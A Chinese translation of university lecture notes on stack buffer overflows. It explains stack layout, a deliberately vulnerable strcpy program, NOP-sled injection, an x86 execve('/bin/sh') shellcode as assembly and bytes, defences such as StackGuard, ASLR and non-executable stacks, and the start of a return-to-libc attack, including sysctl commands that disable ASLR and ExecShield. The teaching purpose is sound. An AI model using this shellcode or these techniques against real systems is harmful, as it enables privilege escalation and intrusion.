



# 四、缓冲区溢出漏洞和攻击

> 原文：[Buffer-Overflow Vulnerabilities and Attacks](http://www.cis.syr.edu/~wedu/Teaching/CompSec/LectureNotes_New/Buffer_Overflow.pdf)

> 译者：[飞龙](https://github.com/wizardforcel)

## 1 内存

> 这个讲义的“区域”（Area）和“段”（Segment）与多数教程正好相反，译文中已更正。

在 PC 架构中，程序中有四个基本读写段：栈、数据、BSS 和堆。数据、BSS 以及堆区可统称为“数据区域”。在“内存布局和栈”的教程中，Peter Jay Salzman 详细描述了内存布局。

+   栈：栈通常在内存的高地址。通常“向下增长”：从高地址到低地址。无论何时进行函数调用，栈都会使用。

+   数据区域

    +   数据段：包含程序所用的全局变量，它们不被初始化为 0。例如，字符串`hello world`由` char s[] = "hello world" `定义，它在 C 中存在于数据段。
    +   BSS 段：起始于数据段的末尾，并包含所有初始化为 0 的全局变量。例如，变量声明为` static int `，会包含在 BSS 段中。
    +   堆段：起始于 BSS 段的末尾，向高地址增长。堆段由`malloc`库管理。堆段由程序中所有共享库以及动态加载模块共享。
    
## 2 栈缓冲区溢出

### 2.1 栈的背景

+   栈布局：下面的图片展示了在执行流进入函数`func`之后，栈的布局。

    
    
+   栈方向：栈从高地址向低地址增长（而缓冲区正好相反）。

+   返回地址：函数返回后所执行的地址。

    +   在进入函数之前，程序需要记住从函数返回之后，应该返回到哪里。也就是需要记住返回地址。
    
    +   返回地址是函数调用下一条指令的地址。
    
    +   返回地址会储存在栈上。在 x86 中，指令`call func`会将`call`语句下一条指令的地址压入栈中（返回地址区域），之后跳到`func`的代码处。
    
+   帧指针（FP）：用于引用局部变量和函数参数。这个指针储存在寄存器中（例如 x86 中是`ebp`寄存器）。下面，我们使用`$FP`来表示`FP`寄存器的值。

    +   `variable_a`被引用为`$FP-16`。
    +   `buffer`被引用为`$FP-12`。
    +   `str`被引用为`$FP+8`。

+   缓冲区溢出问题：上面的程序拥有缓冲区溢出问题。

    +   函数`strcpy(buffer, str)`将内存从`str`复制到`buffer`。
    +   `str`指向的字符串多于 12 个字符，但是`buffer`的大小只为 12。
    +   函数`strcpy`不检查`buffer`是否到达了边界。它值在看到字符串末尾`\0`时停止。
    +   所以，`str`末尾的字符会覆盖`buffer`上面的内存中的内容。
    
### 2.2 漏洞程序

现在，让我们来看一个更复杂的程序。不像前面的程序，用于覆盖返回地址的字符串不是静态字符串，它通常由用户提供。换句话说，用户可以决定字符串中包含什么。

```c
/* stack.c */
/* This program has a buffer overflow vulnerability. */ 
/* Our task is to exploit this vulnerability */ 
#include <stdlib.h> 
#include <stdio.h> 
#include <string.h>
int func (char *str) { 
    char buffer[12];
    /* The following statement has a buffer overflow problem */ 
    strcpy(buffer, str);
    return 1;
}
int main(int argc, char **argv) { 
    char str[517]; 
    FILE *badfile;
    badfile = fopen("badfile", "r"); 
    fread(str, sizeof(char), 517, badfile); 
    func (str); 
    printf("Returned Properly\n"); 
    return 1;
}
```

我们并不难以看到上面的程序拥有缓冲区溢出问题。这个程序首先从`badfile`文件读取输入，之后将输入传递给`bof`中另一个缓冲区。原始输入最大为 517 个字节，但是`bof`中的缓冲区只有 12 个字节。因为`strcpy`不检查边界，会发生缓冲区溢出。如果这个程序是 Set-Root-UID 程序，普通用户就可以利用这个缓冲区溢出漏洞，并得到 Root 权限。

### 2.3 利用缓冲区溢出漏洞

为了完全利用栈缓冲区溢出漏洞，我们需要解决几个挑战性的问题。

+   注入恶意代码：我们需要能够像目标进程的内存中注入恶意代码。如果我们可以控制目标程序中，缓冲区的内存，就可以完成它。例如，在上面的例子中，程序从文件获取输入。我们可以将恶意代码保存到文件中，并且目标程序会将其读入内存。

+   跳到恶意代码：使用内存中已有的恶意代码，如果目标程序可以跳到恶意代码的起始点，攻击者就能控制它。

+   编写恶意代码：编写恶意代码并不犊砸，我们就展示一种特定类型的恶意代码，Shellcode，如何编写。

### 2.4 注入恶意代码

使用程序中的缓冲区溢出漏洞，我们可以轻易向运行的程序的内存中注入恶意代码。让我们假设恶意代码已经编写好了（我们会在稍后讨论如何编写恶意代码）。

在上面的漏洞程序中，程序从文件`badfile`读取内存，并且将内存复制到`buffer`。之后，我们可以简单将恶意代码（二进制形式）储存在`badfile`中，漏洞程序会将恶意代码复制到栈上的`buffer`（它会溢出`buffer`）。

### 2.5 跳到恶意代码



+   为了跳到我们已经注入到目标程序栈上的恶意代码，我们需要知道代码的绝对地址，如果我们事先知道地址，在溢出缓冲区时，我们就可以使用这个地址来覆盖存放返回地址的内存。因此，当函数返回时，他就会返回到我们的恶意代码。

+   下面就是寻找恶意代码从哪里开始的挑战。

+   如果目标程序是个 Set-UID 程序，你可以复制这个程序，并使用你自己的权限来执行。你可以用这个方式来调试程序（要逐级你不能调试 Set-UID 程序）。在调试器中，你可以弄清楚`buffer`的地址，因此计算出恶意代码的起始点。`buffer`的地址可能和你运行 Set-UID 副本时不同，但已经很接近了。你可以尝试多个值。

+   如果目标程序远程运行，并且你可能不能依赖调试器来寻找地址。但是，你可以始终猜测它。下面的事实是的猜测变得可行：

    +   栈通常起始于相同地址。
    +   栈通常不是很深：多数程序不会一次性压入成百上千字节。
    +   因此我们需要猜测的栈的范围实际非常小。
    
+   提升几率：为了提升成功的几率，我们可以向恶意代码的顶部添加许多 NOP 指令。NOP 是个特殊的指令，除了步进到下一条指令之外，不做任何事情。因此，只要猜测的地址指向了 NOP 指令之一，攻击就成功了。使用这些 NOP，猜测指向恶意代码的正确地址的几率就会显著增加。

### 2.6 恶意代码：Shellcode

在前面的讨论中，我们假设恶意代码已经是可用的。这个章节中，我们会讨论如何编写这种恶意代码。

如果我们可以让特权程序执行我们的代码，我们想要它执行什么代码呢？最强大的代码就是调用 Shell，所以我们可以在其中执行任何我们想要执行的代码。目标为加载 Shell 的程序就叫做 Shellcode。为了了解如何编写 Shellcode，让我们来看看下面的 C 程序：

```c
#include <stdio.h>
int main( ) { 
    char *name[2];
    name[0] = "/bin/sh"; 
    name[1] = NULL; 
    execve(name[0], name, NULL);
}
```

在我们将上面的程序编译为二进制代码之后，我们可以在缓冲区溢出工集中，直接使用二进制代码作为 Shellcode 嘛？事情并不是那么容易。如果我们直接使用上面的代码，就会有几个问题：

+   首先，为了调用系统调用`execve`，我们需要知道`/bin/sh`的地址。字符串保存在哪里，以及如何获取字符串位置，并不是复杂的问题。

+   其次，代码中有一些空字符。这会使`strcpy`停止，如果漏洞由`strcpy`导致，我们就会有问题。

为了解决第一个问题，我们可以将字符串`/bin/sh`压入栈中，之后使用栈指针`esp`获取字符串位置。为了解决第二个问题，我们可以将包含 0 的指令转换为另一条不包含 0 的指令，例如，为了将 0 储存到寄存器中，我们可以使用 XOR 指令，而不是直接将寄存器赋为 0。下面是个用汇编语言编写的 Shellcode 的例子：

```asm
Line 1: xorl %eax,%eax 
Line 2: pushl %eax        # push 0 into stack (end of string) 
Line 3: pushl $0x68732f2f # push "//sh" into stack 
Line 4: pushl $0x6e69622f # push "/bin" into stack 
Line 5: movl %esp,%ebx    # %ebx = name[0] 
Line 6: pushl %eax        # name[1] 
Line 7: pushl %ebx        # name[0] 
Line 8: movl %esp,%ecx    # %ecx = name 
Line 9: cdq               # %edx = 0 
Line 10: movb $0x0b,%al 
Line 11: int $0x80        # invoke execve(name[0], name, 0)
```

Shellcode 中的一些地方需要注意：

+   首先，第三条指令将`/sh`压入到栈中。这是因为我们需要一个 32 位数值，`/sh`只有 24 位，幸运的是，`//`等价于`/`，所以我们可以使用两个斜杠字符。

+   其次，在调用`execve`系统调用之前，我们需要将`name[0]`（字符串地址），`name`（数组地址），以及`NULL`储存到`%ebx`、`%ecx`以及`%edx`寄存器。

    +   第五行将`name[0]`储存到`%ebx。
    +   第八行将`name`储存到`%ecx`。
    +   第九行将`%edx`设为 0。有其他将它设为 0 的办法（例如`xorl %edx, %edx`）。这里使用的`cdq`是个简单的指令，将 EAX 最高位（第 31 位）复制到 EDX 寄存器的每一位，也就是将`%edx`设为 0。
    
+   再者，`execve`系统调用在我们将`%al`设为 11 并执行`int $0x80`时调用。

如果我们将上面的代码转换为二进制，并将其储存在数组中，我们就行可以在 C 程序中调用：

```c
#include <stdlib.h> 
#include <stdio.h>

const char code[] = 
    "\x31\xc0" /* Line 1: xorl %eax,%eax */ 
    "\x50" /* Line 2: pushl %eax */ 
    "\x68""//sh" /* Line 3: pushl $0x68732f2f */ 
    "\x68""/bin" /* Line 4: pushl $0x6e69622f */ 
    "\x89\xe3" /* Line 5: movl %esp,%ebx */ 
    "\x50" /* Line 6: pushl %eax */ 
    "\x53" /* Line 7: pushl %ebx */ 
    "\x89\xe1" /* Line 8: movl %esp,%ecx */ 
    "\x99" /* Line 9: cdq */ 
    "\xb0\x0b" /* Line 10: movb $0x0b,%al */ 
    "\xcd\x80" /* Line 11: int $0x80 */ ;

int main(int argc, char **argv) { 
    char buf[sizeof(code)]; 
    strcpy(buf, code); 
    ((void(*)( ))buf)( ); 
}
```

上面`main`函数中的`((void(*)( ))buf)( )`语句会调用 Shell，因为执行了 Shellcode。

## 3 对抗措施

### 3.1 应用安全工程原则

+   使用强类型语言，例如 Java、C#，以及其他。使用这些语言，可以避免缓冲区溢出。

+   使用安全的库函数
    
    +   可能拥有缓冲区溢出问题的函数：`gets`、`strcpy`、`strcat`、`sprintf`。
    +   这些函数更加安全：`fgets`、`strncpy`、`strncat`以及`snprintf`。
    
### 3.2 系统化代码修改

+   StackShield：分离控制（返回地址）和数据。
    +   它是保护返回地址的 GCC 编译器扩展。
    +   当函数调用时，StackShield 将返回地址复制到不能覆盖的区域。
    +   从函数返回时，返回地址被存储。因此，即使栈上的返回地址发生改变，也没有效果，因为原始的返回地址在返回地址用于跳转之前复制了回来。
    
+   StackGuard：标记缓冲区的边界
    +   观察：一个人需要覆盖返回地址之前的内存，来覆盖返回地址。换句话说，攻击者很难治修改返回地址，而不修改返回地址之前的栈内存。
    +   无论函数什么时候调用，都可以将一个哨兵值放在返回地址的旁边。
    +   如果函数返回值，哨兵值发生改变，就代表发生了缓冲区溢出。
    +   StackGuard 也内建于 GCC。
    +   我们可以理解 StackGuard 如何工作，通过下面的程序（我们模拟了编译器，手动将保护代码添加到函数中）。处于明显的原因，我们在这个例子中使用整数作为哨兵值，它还不够强大。我们可以使用多个整数作为哨兵值。
    
    ```c
    /* This program has a buffer overflow vulnerability. */ 
    /* However, it is protected by StackGuard */ 
    #include <stdlib.h> 
    #include <stdio.h> 
    #include <string.h>
    int func (char *str) {
        int canaryWord = secret; 
        char buffer[12];
        /* The following statement has a buffer overflow problem */ 
        strcpy(buffer, str);
        if (canaryWord == secret) // Return address is not modified 
            return 1; 
        else { // Return address is potentially modified 
            ... error handling ... 
        }
    }
    static int secret; // a global variable
    int main(int argc, char **argv) { 
        // getRandomNumber will return a random number 
        secret = getRandomNumber();
        char str[517]; 
        FILE *badfile;
        badfile = fopen("badfile", "r"); 
        fread(str, sizeof(char), 517, badfile); 
        func (str); 
        printf("Returned Properly\n"); 
        return 1;
    }
    ```
    
### 3.3 操作系统方法

+   地址空间随机化（ASLR）：猜测恶意代码的地址空间是一个缓冲区溢出的关键步骤。如果我们可以使恶意代码的地址难以预测，攻击就能变得更困难。多种 Linux 发行版都已经使用了 ASLR 来随机化堆和栈的起始地址。这使得猜测准确地址变得困难。下面的命令（只能由 Root 运行）开启或禁用 ASLR：

    ```
    # sysctl -w kernel.randomize_va_space=2 // Enable Randomization 
    # sysctl -w kernel.randomize_va_space=0 // Disable Randomization
    ```
    
    不幸的是，在 32 位机器上，即使地址空间随即化了，熵依然不是非常大，来放置猜测。实际上，如果你尝试多次，你的成功率就会非常高。我们的经验表明，几分钟的尝试足以成功利用 Intel 2GHz 的机器。
    
+   不可执行栈：从攻击中，我们可以观察到，攻击者将恶意代码放置在栈上，并跳转到它。由于栈是数据而不是代码的地方，我们可以将栈配置为不可执行，因此防止了恶意代码的执行。

    这个保护机制叫做 ExecShield，多种 Linux 发行版已经实现了该机制。ExecShield 本质上禁止了储存在栈上的任意代码的执行。下面的代码（只能由 Root 执行）开启或禁用了 ExecShield。
    
    ```
    # sysctl -w kernel.exec-shield=1 // Enable ExecShield 
    # sysctl -w kernel.exec-shield=0 // Disable ExecShield
    ```
    
    在下一节中，我们可以看到，这种保护模式并没有解决缓冲区溢出问题，因为另一种类型的攻击，叫做 Return-to-Libc 攻击不需要可执行的栈。
    
## 4 不可执行栈和 Return-to-Libc 攻击

为了利用基于栈的缓冲区溢出漏洞，攻击者需要将代码段注入到用户的栈上，之后执行栈上的代码。如果我们使栈的内存段不可执行，即使代码注入到了栈中，代码也不能够执行。这样，我们就可以放置缓冲区溢出攻击。严格来说，这易于实现，因为现代 CPU 架构（例如 x86）的确允许操作系统来将一块内存变为不可执行。但是，还是没有那么简单：许多操作系统，例如 Linux，将代码保存到栈中，因此需要可执行的栈。例如，Linux 为了处理信号，需要在用户栈中放置代码序列。这个序列会在处理信号时执行。

新版本的 Linux 已经使栈只存放数据了。因此，栈可以配置成不可执行。在 Fedora 中，我们可以执行下列命令来使栈不可执行：

```
# /sbin/sysctl -w kernel.exec-shield=1
```

不幸的是，使栈不可执行不能完全放置缓冲区溢出。它使运行栈上的代码变得不可能，但是还有其它方法来利用缓冲区溢出漏洞，不需要执行栈上的任意代码。Return-to-Libc 攻击就是这种攻击。

为了理解这种新型攻击，让我们回忆从栈中执行恶意代码的主要目的。我们知道它为了调用 Shell。问题就是，我们是否能够不实用输入的代码来调用 Shell？这实际上是可行的：我们可以使用操作系统自身的代码来调用 Shell。更加具体来讲，我们可以使用操作系统的库函数来完成我们的目标。在类 Unix 系统中，叫做 Libc 的共享库提供了 C 运行时。这个库是多数 C 程序的基础，因为它定义了系统调用，以及其他基本的设施，例如`open`、`malloc`、`printf`、`system`，以及其他。Libc 的代码已经作为共享运行时库在内存中了，并且他可以被所有应用访问。

函数`system`是 Libc 中的函数之一。如果我们可以使用参数`/bin/sh`调用这个函数，我们就可以获得 Shell。这是 Return-to-Libc 攻击的基本原理。攻击的第一部分类似于使用 Shellcode 的攻击，它溢出了缓冲区，并修改了栈上的返回地址。第二部分所有不同。不像 Shellcode 方式，返回地址不指向任何注入的代码。它指向 Libc 中函数`system`的入口。如果我们执行正确，我们就可以强迫目标程序执行` system("/bin/sh")`，它会加载 Shell。

挑战：为了完成 Return-to-Libc 攻击，我们需要客服如下困难：

+   如何寻找`system`的位置？
+   如何寻找字符串`/bin/sh`的位置？
+   如何将字符串`/bin/sh`的地址传递给`system`函数？

### 4.1 寻找`system`函数的位置

在多数 Unix 操作系统中， Libc 库始终加载到固定内存地址中。为了寻找 Libc 函数的地址，我们可以使用下面的 GDB 命令（假设`a.out`是任意程序）：

```
$ gdb a.out 
(gdb) b main 
(gdb) r 
(gdb) p system 
    $1 = {<text variable, no debug info>} 0x9b4550 <system> 
(gdb) p exit 
    $2 = {<text variable, no debug info>} 0x9a9b70 <exit>
```

从上面的 GDB 命令，我们可以发现，`system`函数的地址是`0x9b4550`，函数`exit`的返回地址是`0x9a9b70`。你系统中的实际地址可能不同。

我们也可以调用函数`dlopen`和`dlsym`来寻找 Libc 中函数的地址。

```c
#include <dlfcn.h>

#define LIBCPATH "/lib/libc.so.6" /* on Fedora */

void *libh, *sys;

if ((libh = dlopen(LIBCPATH, RTLD_NOW)) == NULL){ 
    // report error 
}

if (( sys = dlsym (libh, "system")) == NULL){ 
    // report error 
} 
printf("system @ %p\n", sys);
```

### 4.2 寻找`/bin/sh`的地址

有几种方式来寻找这种字符串的地址：

+   使用缓冲区溢出问题，直接将地址插入栈中，之后猜测它的地址。

+   在执行漏洞程序之前，创建环境变量，值为`/bin/sh`。当 C 程序从 Shell 执行时，它就会从 Shell 继承所有环境变量。下面，我们定义了新的 Shell 变量`MYSHELL`，并使它的值为`/bin/sh`。

    ```
    $ export MYSHELL=/bin/sh
    ```
    
+   我们使用这个变量的地址作为`system`调用的参数。这个变量在内存中的位置可以使用下面的程序轻易在内存中找到：

    ```c
    void main() { 
        char* shell = getenv("MYSHELL"); 
        if (shell) 
            printf("%x\n", shell); 
    }
    ```
    
    如果站地址没有随机化，我们会发现打印出了相同地址。但是，当我们运行另一个程序时，环境变量的地址可能和你刚刚运行的程序不一样。这种地址在你修改程序名称时就可能改变（因为文件名称的字符数量不同了）。好消息是，Shell 的地址会很接近你是用上一个程序打印出来的东西。因此，你可能需要尝试几次直到成功。
    
+   我们也知道，函数`system`在自己的代码中使用`/bin/sh`。因此，字符串必然存在于 Libc。如果我们能够寻找字符串的位置，我们就可以直接使用这个字符串。你可以在 LIBC 库文件（`/lib/libc.so.6`）中搜索字符串`rodata`：

    ```
    $ readelf -S /lib/lib.so.6 | egrep ’rodata’ 
    [15] .rodata PROGBITS 009320e0 124030 ......
    ```
    
    上面命令的结果表明，`.rodata`段起始于`0x009320e0`。`.rodata`段用于储存不变数据，字符串常量`/bin/sh`应该储存在这一段内。你可以编写程序来在起始于`0x00932030`的内存中搜索字符串。
    
### 4.3 将`/bin/sh`的地址传给`system`

为了让`system`执行命令`/bin/sh`，我们需要将命令字符串的地址作为参数传给`system`。就像调用任何函数那样，我们需要通过栈传递参数。因此，我们需要将参数放到栈上的正确位置。为了执行正确，我们需要清晰理解调用函数的时候，函数的栈帧如何构建。我们使用小型的 C 程序来理解函数调用在栈上的影响：

```c
/* foobar.c */ 
#include<stdio.h> 
void foo(int x) { 
    printf("Hello world: %d\n", x);
}
int main() { 
    foo(1); 
    return 0; 
}
```

我们可以使用`gcc -S foobar.c`来将这个程序编译为汇编代码。产生的文件`foobar.s`像这样：

```asm
   ...... 
 8 foo: 
 9 pushl %ebp 
10 movl %esp, %ebp 
11 subl $8, %esp 
12 movl 8(%ebp), %eax 
13 movl %eax, 4(%esp) 
14 movl $.LC0, (%esp) : string "Hello world: %d\n" 
15 call printf 
16 leave 
17 ret 
   ...... 
21 main: 
22 leal 4(%esp), %ecx 
23 andl $-16, %esp 
24 pushl -4(%ecx) 
25 pushl %ebp 
26 movl %esp, %ebp 
27 pushl %ecx 
28 subl $4, %esp 
29 movl $1, (%esp) 
30 call foo 
31 movl $0, %eax 
32 addl $4, %esp 
33 popl %ecx 
34 popl %ebp 
35 leal -4(%ecx), %esp 
36 ret
```

调用和进入`foo`。让我们专注于调用`foo`时的栈。我们可以忽略之前的栈。要注意，行号而不是指令地址用于解释。

    +   28~29 行：两个语句将值 1，也就是`foo`的参数压入栈。这个操作使`%esp`增加了 4。两个豫剧之后的栈由图 3(a) 描述：
    
        
    
        图 3：`foo`的进入的返回
    
    +   30 行：`call foo`：这个语句将`call`语句的下一条语句的地址压入了栈（也就是返回地址），并跳到`foo`的代码。当前的栈由图 3(b) 描述。
    
    +   9~10 行：函数`foo`的第一行将`%ebp`压入了栈，来保存上一个帧指针。第二行让`%ebp`指向当前的帧。当前的栈由图 3(c) 描述。
    
    +   11 行：` subl $8, %esp`：栈指针发生改变，来为局部变量和两个传给`printf`的参数分配空间（8 个字节）。所以函数`foo`中没有局部变量，8 字节全部用于参数。请见图 3(d)。
    
离开`foo`：现在控制流传给了函数`foo`。让我们看看当函数返回时，栈上发生了什么。

+   16 行：`leave`：这个指令隐式执行两条指令（在早期 x86 发行版中它是一个宏，但是后来做成了一个指令）：
    
    ```asm
    mov %ebp, %esp 
    pop %ebp
    ```

    第一条语句释放了为函数分配的栈空间，之后跳到了返回地址。当前的栈由图 3(e) 描述。
    
+   17 行：`ret`：这个指令只是弹出栈的返回地址，之后跳到返回地址，当前的栈图 3(f) 描述。

